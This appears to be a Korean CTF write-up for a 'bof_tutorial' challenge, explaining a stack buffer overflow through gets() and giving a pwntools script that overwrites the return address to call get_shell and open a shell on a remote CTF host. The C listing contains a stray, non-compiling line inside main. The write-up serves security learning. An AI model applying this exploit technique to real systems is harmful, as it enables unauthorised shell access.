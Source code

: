 # bof_tutorial

> ### 소스코드를 분석하여 buffer overflow 방식으로 get_shell() 함수를 실행시켜 플래그를 얻어낼 수 있다. 


<hr>

# Solution 

- source code
```c
#include <stdio.h>
#include <stdlib.h>
void init( void )
{
	setvbuf(stdin, 0, 2, 0);
	setvbuf(stdout, 0, 2, 0);
	setvbuf(stderr, 0, 2, 0);
}
void get_shell( void )
{
	system( "/bin/sh" );
}
int main( void )
{
	char buf[16];
	init();
	gets( buf );
	printf( "Your input is %s\n", buf );
	bof_tutorial guide 2
	return 0;
}
```
### 코드 분석

- 위의 소스 코드를 보면 `get_shell` 함수를 실행시키면 플래그를 얻을 수 있을 것 같은데 main 함수에는 `get_shell`함수를 실행하는 코드가 없다.
- 그리고 main 함수에는 입력을 받는 길이를 확인하지 않는 취약점을 가진 함수인 `gets` 함수가 있다.
- 스택 구조의 가장 밑(높은 주소)에있는 RET 영역은 다음에 실행할 명령어의 주소를 담고있다.
- 이 부분을 `get_shell` 함수의 주소로 덮으면 될 것 같다.
- 이 프로그램을 실행할 때 스택의 구조는 아래와 같다.
![스크린샷 2024-01-19 200142](https://github.com/yeochaeeon/23SystemHacking_study/assets/129289883/fa55ba9a-2619-41a5-b138-c64a14fc6c41){: width="100" height="100"}
<img src="https://user-images.githubusercontent.com/51365114/119627750-716f3100-be47-11eb-8e83-686b23c2c161.png  width="200" height="400"/>
<img src = "https://github.com/yeochaeeon/23SystemHacking_study/assets/129289883/fa55ba9a-2619-41a5-b138-c64a14fc6c41.png width = "300 height="300"/>
- `gets()` 함수로 입력을 받을 때 쓰레기 값으로 (16+8) byte를 채우고 그 뒤에 `get_shell` 함수의 주소를 입력하자.
- `info func`  명령어를 사용하면 함수들의 정보를 확인 할 수 있다.
- 이를 통해 `get_shell` 함수의 주소가 `0x00000000004011b7` 임을 알 수 있다.
- 이제 위에서 알아낸 정보들을 바탕으로  exploit 코드를 작성하면 된다.
```python
# bof_exploit.py
from pwn import *
# process를 실행하기 위한 함수
# remote로 접속하려면 remote 함수를 사용해야함
r = remote( "ctf.keeper.or.kr", 1010 )
payload = b"A" * 24 # buf( 16 bytes ) + SFP( 8 bytes )
payload += p64( 0x40101a ) # system 함수 내부 구현 때문에 ret gad
payload += p64( 0x4011b7 ) # get_shell
# payload를 입력하기 위한 함수. 
# 끝에 '\n'까지 붙여주는 기능을 갖고 있음.
r.sendline( payload )
# shell을 획득하고 나서 직접적인 상호작용을 위한 함수
r.interactive()
```

### 코드 실행 결과
![스크린샷 2024-01-19 190946](https://github.com/yeochaeeon/23SystemHacking_study/assets/129289883/5c224b8e-46dc-434d-91c7-d2421a999990)

